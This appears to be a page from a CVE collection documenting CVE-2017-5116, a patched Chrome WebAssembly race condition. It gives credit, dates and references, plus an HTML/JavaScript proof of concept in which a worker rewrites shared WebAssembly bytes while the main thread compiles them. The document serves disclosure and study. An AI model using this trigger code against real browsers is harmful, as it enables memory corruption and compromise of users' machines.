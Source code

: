 # CVE-2017-5116

- Report: Aug 2017
- Fix: Aug 2017
- Credit: Guang Gong of Alpha Team, Qihoo 360

## PoC

```html
<html>
<h1>poc</h1>
<script id="worker1">
worker:{
       self.onmessage = function(arg) {
        console.log("worker started");
        var ta = new Uint8Array(arg.data);
        var i =0;
        while(1){
            if(i==0){
                i=1;
                ta[51]=0;   //--->4)modify the webassembly code at the same time
            }else{
                i=0;
                ta[51]=128;
            }
        }
    }
}
</script>
<script>
function getSharedTypedArray(){
    var wasmarr = [
        0x00, 0x61, 0x73, 0x6d, 0x01, 0x00, 0x00, 0x00,
        0x01, 0x05, 0x01, 0x60, 0x00, 0x01, 0x7f, 0x03,
        0x03, 0x02, 0x00, 0x00, 0x07, 0x12, 0x01, 0x0e,
        0x67, 0x65, 0x74, 0x41, 0x6e, 0x73, 0x77, 0x65,
        0x72, 0x50, 0x6c, 0x75, 0x73, 0x31, 0x00, 0x01,
        0x0a, 0x0e, 0x02, 0x04, 0x00, 0x41, 0x2a, 0x0b,
        0x07, 0x00, 0x10, 0x00, 0x41, 0x01, 0x6a, 0x0b];
    var sb = new SharedArrayBuffer(wasmarr.length);           //---> 1)put WebAssembly code in a SharedArrayBuffer
    var sta = new Uint8Array(sb);
    for(var i=0;i<sta.length;i++)
        sta[i]=wasmarr[i];
    return sta;    
}
var blob = new Blob([
        document.querySelector('#worker1').textContent
        ], { type: "text/javascript" })

var worker = new Worker(window.URL.createObjectURL(blob));   //---> 2)create a web worker
var sta = getSharedTypedArray();
worker.postMessage(sta.buffer);                              //--->3)pass the WebAssembly code to the web worker
setTimeout(function(){
        while(1){
        try{
        sta[51]=0;
        var myModule = new WebAssembly.Module(sta);          //--->4)parse the WebAssembly code
        var myInstance = new WebAssembly.Instance(myModule);
        //myInstance.exports.getAnswerPlus1();
        }catch(e){
        }
        }
    },1000);

//worker.terminate(); 
</script>
</html>
```

## Reference

- [Android Security Ecosystem Investments Pay Dividends for Pixel](https://android-developers.googleblog.com/2018/01/android-security-ecosystem-investments.html)
- [Issue](https://crbug.com/759624)
- [CVE-2017-5116](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-5116)

